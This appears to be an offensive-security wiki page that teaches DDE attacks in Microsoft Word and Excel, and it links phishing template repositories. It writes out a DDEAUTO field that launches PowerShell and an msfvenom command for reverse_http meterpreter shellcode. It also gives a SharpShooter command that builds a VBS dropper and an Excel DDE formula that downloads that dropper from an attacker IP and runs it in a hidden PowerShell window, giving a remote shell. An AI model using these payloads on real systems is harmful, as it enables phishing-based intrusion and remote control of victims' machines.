 # ⭕ DDE Auto - Word/Excel

{% embed url="https://github.com/0xdeadbeefJERKY/Office-DDE-Payloads" %}

{% embed url="https://github.com/MartinSohn/Office-phish-templates" %}

## <mark style="color:red;">Intro</mark>

DDE is an old MS technology that is used to facilitate data transfer between applications. DDE sends messages between applications that share data and uses shared memory to exchange data between applications.  DDE can be embedded in several Office file formats

To leverage this attack vector:

Open a new MS document and insert a field

![](<../../.gitbook/assets/image (51) (1).png>)

It will add an "!Unexpected End of Formula" to the document, we right-click it and "Toggle field codes" :

![](<../../.gitbook/assets/image (33) (1) (1) (1).png>)

We then replace the = \* MERGEFORMAT with the payload: 1 { DDEAUTO "C:\Programs\Microsoft\Office\MSWord.exe\\..\\..\\..\windows\system32\WindowsPowershell\v1.0\powershell.exe start calc # " "required"}​ Copied! If we save the document, reopen our document and accept the 2 prompts, calculator will popup.



This attack has been tested on the latest Windows10 LTSC edition with Microsoft Office 365 with up-to-date Windows Defender.

#### Requirements:

* Enabled Dynamic Data Exchange Server Lookup
* Enabled Dynamic Data Exchange Server Launch

Warning presented to the user who opens the worksheet:

![](<../../.gitbook/assets/image (2) (1).png>)

## <mark style="color:red;">Exploitation</mark>

generate msfvenom shellcode:

```
msfvenom -a x86 -p windows/meterpreter/reverse_http LHOST=192.168.1.108 LPORT=443 EnableStageEncoding=True PrependMigrate=True -f raw -o raw3.txt
```

Create a malicious VBS script with SharpShooter with included raw3.txt shellcode file we generated earlier:

{% embed url="https://github.com/mdsecactivebreach/SharpShooter" %}

```
python2 SharpShooter.py --stageless --dotnetver 2 --payload vbs --output foo2 --rawscfile raw3.txt --amsi amsienable
```

And inject the command to Microsoft Excel function:

```
=cmd|'/c cmd.exe /c powershell.exe -nop -w hidden iwr -outf %tmp%\\msf.vbs http://192.168.1.108:8000/foo2.vbs & %tmp%\\msf.vbs'!'A1'
```

After the user skips the warning we get a meterpreter shell:

![](<../../.gitbook/assets/image (8).png>)


